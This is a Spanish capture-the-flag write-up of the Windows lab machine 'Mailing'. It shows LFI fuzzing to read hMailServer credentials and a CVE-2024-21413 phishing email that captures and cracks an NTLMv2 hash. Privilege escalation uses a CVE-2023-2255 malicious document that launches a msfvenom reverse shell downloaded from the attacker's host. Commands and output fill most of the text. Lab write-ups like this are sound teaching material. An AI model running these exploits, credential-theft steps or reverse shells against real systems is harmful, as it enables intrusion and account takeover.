



# Resolución maquina Mailing

**Autor:** PepeMaquina.
**Fecha:** 30 de Marzo de 2026.
**Dificultad:** Easy.
**Sistema Operativo:** Windows.
**Tags:** LFI, Mail, CVE.

---
## Imagen de la Máquina

*Imagen: Mailing.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 4000 -n -Pn 10.129.232.39 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p25,80,110,135,139,143,445,465,587,993,5040,5985,7680,47001,49664,49665,49666,49667,49668,60485 10.129.232.39 -oN targeted
~~~
### Enumeración de Servicios
~~~bash
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://mailing.htb
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: TOP UIDL USER
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: IMAP4 CHILDREN OK ACL IMAP4rev1 CAPABILITY RIGHTS=texkA0001 QUOTA SORT NAMESPACE IDLE completed
445/tcp   open  microsoft-ds?
465/tcp   open  ssl/smtp      hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
587/tcp   open  smtp          hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
993/tcp   open  ssl/imap      hMailServer imapd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_imap-capabilities: IMAP4 CHILDREN OK ACL IMAP4rev1 CAPABILITY RIGHTS=texkA0001 QUOTA SORT NAMESPACE IDLE completed
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
60485/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-31T20:35:17
|_  start_date: N/A
|_clock-skew: -1m04s
~~~
### Enumeración web
Se realizo la enumeración web donde no se logro obtener gran información salvo que como se vio en la enumeración de puertos se sabe que existe un servidor mail, y la pagina lo confirma sabiendo que se emplea `hMailServer`.

Tambien se puede ver que existe un boton que permite la descarga de informacion sobre el servicio mail.

Al ver el contenido del pdf, este menciona que como cliente windows puede usar `Windows Mail` y `Thunderbird`, esto sera de utilidad mas adelante.

Lo primero que interesa es probar si existe un LFI al momento de descargar el pdf, para ello se empleo fuff para comprobarlo.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing/nmap]
└─$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://mailing.htb/download.php?file=FUZZ' -c -fs 15

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://mailing.htb/download.php?file=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15
________________________________________________

\\&apos;/bin/cat%20/etc/passwd\\&apos; [Status: 500, Size: 1213, Words: 71, Lines: 30, Duration: 179ms]
\\&apos;/bin/cat%20/etc/shadow\\&apos; [Status: 500, Size: 1213, Words: 71, Lines: 30, Duration: 179ms]
../web.config           [Status: 200, Size: 570, Words: 197, Lines: 17, Duration: 163ms]
..\web.config           [Status: 200, Size: 570, Words: 197, Lines: 17, Duration: 165ms]
../../../../../../../../windows/win.ini [Status: 200, Size: 92, Words: 6, Lines: 8, Duration: 158ms]
../../windows/win.ini   [Status: 200, Size: 92, Words: 6, Lines: 8, Duration: 158ms]
..\..\..\..\..\..\..\..\windows\win.ini [Status: 200, Size: 92, Words: 6, Lines: 8, Duration: 159ms]
:: Progress: [929/929] :: Job [1/1] :: 182 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
~~~
Se comprueba un posible LFI, se puede ver archivos de configuración, para ello se realizo un curl para poder ver el contenido, el archivo `web.config` no tiene información alguna.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing/nmap]
└─$ curl 'http://mailing.htb/download.php?file=../web.config'                                        
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <rewrite>
            <rules>
                <rule name="HostName" stopProcessing="true">
                    <match url=".*" />
                    <conditions>
                        <add input="{HTTP_HOST}" pattern="^(?:[0-9]{1,3}\.){3}[0-9]{1,3}$" />
                    </conditions>
                    <action type="Redirect" url="http://mailing.htb" />
                </rule>
            </rules>
        </rewrite>
    </system.webServer>
</configuration>
~~~
De la misma forma se procedio a realizar mas enumeracion con LFI, recordando que se tiene el servicio `hMailServer` dentro del servidor, se procede a enumerar sus archivos de configuración, entre ellos el mas importante es `hMailServer.ini` dentro del directorio de programas.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing/nmap]
└─$ curl "http://mailing.htb/download.php?file=../../Program%20Files%20%28x86%29/hMailServer/Bin/hMailServer.ini"
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
~~~
Se ven dos contraseñas, pero de ellas solo una es descifrable.

La contraseña es para un usuario `AdministratorPassword`, se intento probar esta contraseña con posibles usuarios en el servicio smb pero no se logro encontrar algo.
Posteriormente lo que se puede hacer es verificar estas credenciales por los servicios Mail, se probo en SMTP y se logro entablar una conexión, claramente el usuario seria `administrator@mailing.htb`.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing]
└─$ swaks --auth-user 'administrator@mailing.htb' --auth LOGIN --auth-password homenetworkingadministrator --quit-after AUTH --server mailing.htb 
=== Trying mailing.htb:25...
=== Connected to mailing.htb.
<-  220 mailing.htb ESMTP
 -> EHLO kali
<-  250-mailing.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN PLAIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> YWRtaW5pc3RyYXRvckBtYWlsaW5nLmh0Yg==
<-  334 UGFzc3dvcmQ6
 -> aG9tZW5ldHdvcmtpbmdhZG1pbmlzdHJhdG9y
<-  235 authenticated.
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
~~~
Se intento conectarse con servicios Pop3 para ver si se tienen mensajes en cola que pueden ser importantes, pero no se logro entablar la conexión, ni por el puerto normal, ni por ssl.

Despues de pensar por un largo tiempo, se procedio a encontrar posibles CVE respecto al servicio y cliente que utiliza el servidor windows.
### CVE-2024-21413
Luego de realizar mas enumeracion para posibles configuraciones erroneas o servicios, se recordo que existe un cliente mail corriendo en windows, esto gracias al pdf inicial que se logro encontrar.

No es una informacion muy clara pero se procedio a buscar posibles vulnerabilidades para dichos clientes, logrando encontrar una para `Windows Mail`.
Este es el CVE-2024-21413, y menciona que se puede crear un mail malicioso para enviarlo a un usuario del dominio y sin interaccion de el se puede obtener un hash NTLMv2, y tambien se puede lograr obtener un RCE si es que el usuario abre el mail, es bastante peligroso y se encontro una PoC perfecta en github (https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file).
Para ello fue importante obtener credenciales de un usuario valido, para lograr enviar el mensaje a un usuario del dominio, pero aun no se tiene el nombre de un usuario especifico, pero revisando el pdf inicial, en la parte final toma como ejemplo un usuario `maya` que posiblemente exista en el dominio, asi que se prueba el PoC con dicho usuario.

Se descarga el exploit y se modifica con las credeciales ecnontradas, pasa por el puerto 587 que es SMTPs y configura la url con mi servidor SMB que se abrio con responder.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing/exploits]
└─$ python CVE-2024-21413.py --server "mailing.htb" --port 587 --username "administrator@mailing.htb" --password "homenetworkingadministrator" --sender "administrator@mailing.htb" --recipient "maya@mailing.htb" --url '\\10.10.X.X\test\meet' --subject "test"

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de                                                                                                               
✅ Email sent successfully.
~~~
El mail se envio correctamente, desde otra terminal se abre responder y se logra interceptar un hash NTLMv2. Este ataque requiere de la interaccion de otro usuario para que vea el mail, asi que seria cosa de suerte.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing/exploits]
└─$ sudo responder -I tun0
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
<----SNIP---->

[+] Listening for events...                                                                                                                                 

[SMB] NTLMv2-SSP Client   : 10.129.232.39
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:0a466e8e6566bc18:1FE1E30B29393DD96434465A6D8B771B:0101000000000000802518993BC1DC018F92C3AAF6C94FD40000000002000800360035005900460001001E00570049004E002D00480035004F005000430035005A003000460049005A0004003400570049004E002D00480035004F005000430035005A003000460049005A002E0036003500590046002E004C004F00430041004C000300140036003500590046002E004C004F00430041004C000500140036003500590046002E004C004F00430041004C0007000800802518993BC1DC0106000400020000000800300030000000000000000000000000200000F23AC39CCF971D830293E2942CC7B238B161830389584782A22387AF43394F090A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320038000000000000000000
~~~
La primera opción es intentar descifrar el hash y en caso de que no funcione se va al plan B que es intentar realizar el RCE para ganar acceso a una reverse shell.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing/exploits]
└─$ sudo john hash_maya --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
m4y4ngs4ri       (maya)     
1g 0:00:00:03 DONE (2026-03-31 18:42) 0.2824g/s 1676Kp/s 1676Kc/s 1676KC/s m61405..m4895621
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
~~~
El hash si es decifrable, asi que se lo prueba para ver si tiene acceso al servidor o algun recurso importante.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing]
└─$ sudo netexec winrm 10.129.232.39 -u 'maya' -p 'm4y4ngs4ri'     
WINRM       10.129.232.39   5985   MAILING          [*] Windows 10 / Server 2019 Build 19041 (name:MAILING) (domain:MAILING)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.232.39   5985   MAILING          [+] MAILING\maya:m4y4ngs4ri (Pwn3d!)
~~~
Este usuario tiene acceso por winrm.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con las ultimas credenciales ya probadas y verificadas, se prueba intentar obtener acceso mediante telnet, obteniendo asi la user flag.
~~~powershell
┌──(kali㉿kali)-[~/htb/mailing]
└─$ evil-winrm -i 10.129.232.39 -u 'maya' -p 'm4y4ngs4ri'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents> cd ..
*Evil-WinRM* PS C:\Users\maya> tree /f
Folder PATH listing
Volume serial number is 9502-BA18
C:.
ÃÄÄÄ3D Objects
ÃÄÄÄContacts
ÃÄÄÄDesktop
³       Microsoft Edge.lnk
³       user.txt
³
ÃÄÄÄDocuments
³   ³   mail.py
³   ³
³   ÀÄÄÄWindowsPowerShell
³       ÀÄÄÄScripts
³           ÀÄÄÄInstalledScriptInfos
ÃÄÄÄDownloads
ÃÄÄÄFavorites
³   ³   Bing.url
³   ³
³   ÀÄÄÄLinks
ÃÄÄÄLinks
³       Desktop.lnk
³       Downloads.lnk
³
ÃÄÄÄMusic
ÃÄÄÄOneDrive
ÃÄÄÄPictures
³   ÃÄÄÄCamera Roll
³   ÀÄÄÄSaved Pictures
ÃÄÄÄSaved Games
ÃÄÄÄSearches
³       winrt--{S-1-5-21-3356585197-584674788-3201212231-1002}-.searchconnector-ms
³
ÀÄÄÄVideos
    ÀÄÄÄCaptures
*Evil-WinRM* PS C:\Users\maya> type desktop/user.txt
<Encuentre su user flag>
~~~

---
## Escalada de Privilegios
Para escalar privilegios se empezo viendo si este usuario tiene acceso a recursos smb utiles, logrando ver que existe un recurso compartido como "Important Files".
~~~bash
┌──(kali㉿kali)-[~/htb/mailing]
└─$ sudo netexec smb 10.129.232.39 -u 'maya' -p 'm4y4ngs4ri' --shares
SMB         10.129.232.39   445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)                                                                                                                                                          
SMB         10.129.232.39   445    MAILING          [+] MAILING\maya:m4y4ngs4ri 
SMB         10.129.232.39   445    MAILING          [*] Enumerated shares
SMB         10.129.232.39   445    MAILING          Share           Permissions     Remark
SMB         10.129.232.39   445    MAILING          -----           -----------     ------
SMB         10.129.232.39   445    MAILING          ADMIN$                          Admin remota
SMB         10.129.232.39   445    MAILING          C$                              Recurso predeterminado
SMB         10.129.232.39   445    MAILING          Important Documents READ,WRITE      
SMB         10.129.232.39   445    MAILING          IPC$            READ            IPC remota
~~~
Pero al ingresar el en se puede ver que esta vacio, algo util que siempre seria bueno probar es un ataque NTLM_THEFT ya que se tienen permisos de escritura y se puede robar hashes para descifrarlos despues, pero por el momento parece que existe otra forma de ingresar asi que no se intenta.

Tras realizar enumeración interna en el servidor, a simple vista no se logro obtener algo util asi que se recurrio a winpeas, dentro de el se logro ver que existen programas no convencionales como Git y/o LibreOffice.
~~~bash
ÉÍÍÍÍÍÍÍÍÍ͹ Installed Applications --Via Program Files/Uninstall registry--
È Check if you can modify installed software https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#applications
    C:\Program Files\Archivos comunes
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\dotnet
    C:\Program Files\Git
    C:\Program Files\Internet Explorer
    C:\Program Files\LibreOffice
    C:\Program Files\Microsoft Update Health Tools
    C:\Program Files\ModifiableWindowsApps
    C:\Program Files\MSBuild
    C:\Program Files\OpenSSL-Win64
    C:\Program Files\PackageManagement
    C:\Program Files\Reference Assemblies
    C:\Program Files\RUXIM
    C:\Program Files\Uninstall Information
    C:\Program Files\VMware
    C:\Program Files\Windows Defender
    C:\Program Files\Windows Defender Advanced Threat Protection
    C:\Program Files\Windows Mail
    C:\Program Files\Windows Media Player
    C:\Program Files\Windows Multimedia Platform
    C:\Program Files\Windows NT
    C:\Program Files\Windows Photo Viewer
    C:\Program Files\Windows Portable Devices
    C:\Program Files\Windows Security
    C:\Program Files\Windows Sidebar
    C:\Program Files\WindowsApps
    C:\Program Files\WindowsPowerShell
    C:\Windows\System32
~~~
Nunca esta demas buscar vulnerabilidades, asi que se procedio a buscar versiones de libreoffice para ver si es vulnerable.
En teoria el comando `soffice.exe --version` dentro de `C:\Program Files\libreoffice\program` deberia funcionar pero no lo hace, asi que se lee el archivo `version.ini` que deberia contener informacion.
~~~bash
*Evil-WinRM* PS C:\Program Files\libreoffice\program> type version.ini
[Version]
AllLanguages=en-US af am ar as ast be bg bn bn-IN bo br brx bs ca ca-valencia ckb cs cy da de dgo dsb dz el en-GB en-ZA eo es et eu fa fi fr fur fy ga gd gl gu gug he hsb hi hr hu id is it ja ka kab kk km kmr-Latn kn ko kok ks lb lo lt lv mai mk ml mn mni mr my nb ne nl nn nr nso oc om or pa-IN pl pt pt-BR ro ru rw sa-IN sat sd sr-Latn si sid sk sl sq sr ss st sv sw-TZ szl ta te tg th tn tr ts tt ug uk uz ve vec vi xh zh-CN zh-TW zu
buildid=43e5fcfbbadd18fccee5a6f42ddd533e40151bcf
ExtensionUpdateURL=https://updateexte.libreoffice.org/ExtensionUpdateService/check.Update
MsiProductVersion=7.4.0.1
ProductCode={A3C6520A-E485-47EE-98CC-32D6BB0529E4}
ReferenceOOoMajorMinor=4.1
UpdateChannel=
UpdateID=LibreOffice_7_en-US_af_am_ar_as_ast_be_bg_bn_bn-IN_bo_br_brx_bs_ca_ca-valencia_ckb_cs_cy_da_de_dgo_dsb_dz_el_en-GB_en-ZA_eo_es_et_eu_fa_fi_fr_fur_fy_ga_gd_gl_gu_gug_he_hsb_hi_hr_hu_id_is_it_ja_ka_kab_kk_km_kmr-Latn_kn_ko_kok_ks_lb_lo_lt_lv_mai_mk_ml_mn_mni_mr_my_nb_ne_nl_nn_nr_nso_oc_om_or_pa-IN_pl_pt_pt-BR_ro_ru_rw_sa-IN_sat_sd_sr-Latn_si_sid_sk_sl_sq_sr_ss_st_sv_sw-TZ_szl_ta_te_tg_th_tn_tr_ts_tt_ug_uk_uz_ve_vec_vi_xh_zh-CN_zh-TW_zu
UpdateURL=https://update.libreoffice.org/check.php
UpgradeCode={4B17E523-5D91-4E69-BD96-7FD81CFA81BB}
UpdateUserAgent=<PRODUCT> (${buildid}; ${_OS}; ${_ARCH}; <OPTIONAL_OS_HW_DATA>)
Vendor=The Document Foundation
~~~
Se trata de la version `7.4.0.1`, asi que se busca alguna vulnerabilidad para ello.
### CVE-2023-2255
Buscando en internet se logro encontrar un CVE-2023-2255 donde la version obtenida es vulnerable.
Con esta vulnerabilidad a primera vista pareceria que no es posible elevar privilegios porque no explota algun RCE u cosa importante, pero se logro encontrar una PoC donde si realiza un RCE (https://github.com/elweth-sec/CVE-2023-2255).
Esta vulnerabilidad es basicamente crear un archivo `.dot` para que por detras ejecute un comando totalmente distinto, recordando que se tiene un recurso compartido con permisos de escritura se podria pasar el archivo esperando a que alguien lo abra y ejecute el RCE.

Primero se descarga el exploit y se crea un `.dot`.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing/exploits/CVE-2023-2255]
└─$ python3 CVE-2023-2255.py --cmd 'C:\a\test1.exe' --output 'exploit.odt'                
File exploit.odt has been created !
~~~
Se crea el `.dot` para que ejecute una reverse shell que se creara con msfvenom.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing/exploits/CVE-2023-2255]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.X.X LPORT=1234 -f exe -o test1.exe             
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 7168 bytes
Saved as: test1.exe
~~~
Con estos archivos creados, se procede primero a pasar la reverse a windows para que lo puedan ejecutar.
~~~powershell
*Evil-WinRM* PS C:\a> curl http://10.10.14.28/test1.exe -o test1.exe
*Evil-WinRM* PS C:\a> ls

    Directory: C:\a

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          4/1/2026   5:54 AM           7680 test1.exe
~~~
Luego se sube el archivo `.dot` a smb.
~~~bahs
──(kali㉿kali)-[~/htb/mailing/exploits/CVE-2023-2255]
└─$ smbclient '//10.129.232.39/Important Documents' -U 'maya'
Password for [WORKGROUP\maya]:
Try "help" to get a list of possible commands.
smb: \> put exploit.odt 
putting file exploit.odt as \exploit.odt (26.9 kb/s) (average 26.9 kb/s)
smb: \> ls
  .                                   D        0  Tue Mar 31 23:52:47 2026
  ..                                  D        0  Tue Mar 31 23:52:47 2026
  exploit.odt                         A    30500  Tue Mar 31 23:52:47 2026
~~~
Finalmente se abre un puerto en escucha esperando la conexion de otro usuario.
~~~bash
┌──(kali㉿kali)-[~/htb/mailing/exploits/CVE-2023-2255]
└─$ rlwrap -cAr nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.28] from (UNKNOWN) [10.129.232.39] 55024
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>whoami
whoami
mailing\localadmin
~~~
Al parecer el usuario `localadmin` es un usuario por detras que abre los archivos en el recurso compartido, ese es el adminsitrador local entonces tiene permisos de todo.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Ya con acceso como usuario administrator, se puede leer la root flag.
~~~powershell
C:\Program Files\LibreOffice>cd /users

C:\Users>cd localadmin

C:\Users\localadmin>type desktop\root.txt
<Encuentre su propio root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

